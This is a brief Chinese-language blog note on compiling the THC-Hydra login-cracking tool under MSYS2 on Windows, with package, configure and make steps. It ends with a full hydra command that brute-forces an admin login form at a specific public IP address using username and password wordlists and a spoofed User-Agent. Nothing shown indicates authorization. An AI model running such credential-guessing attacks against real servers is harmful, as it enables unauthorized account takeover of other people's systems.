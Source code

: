 ```yaml
---
author: XhstormR
categories:
- Notes
date: 2019-03-01T14:11:28+08:00
title: 构建 hydra
---
```


<!--more-->

Updated on 2019-03-01

> [MSYS2](https://mirrors.ustc.edu.cn/help/msys2.html)
>
> [hydra](https://github.com/vanhauser-thc/thc-hydra/archive/master.zip)

## Step
```bash
D:\Work\Download\thc-hydra-master>

pacman -Syu
pacman -S --noconfirm --needed gcc make

./configure
make
make install

hydra -V -F -L username.txt -P password.txt -o ok.txt -t 20 'http-post-form://222.69.159.53:80/cm_admin/login.aspx:txtloginid=^USER^&txtpsw=^PASS^:F=password incorrect!:H=User-Agent\: wget'
```

## Reference
* 依赖：
  * msys-2.0.dll：[src](https://mirrors.ustc.edu.cn/msys2/msys/sources/msys2-runtime-3.0.6-1.src.tar.gz) | [bin](https://mirrors.ustc.edu.cn/msys2/msys/x86_64/msys2-runtime-3.0.6-1-x86_64.pkg.tar.xz)
* [MSYS2](https://www.msys2.org)
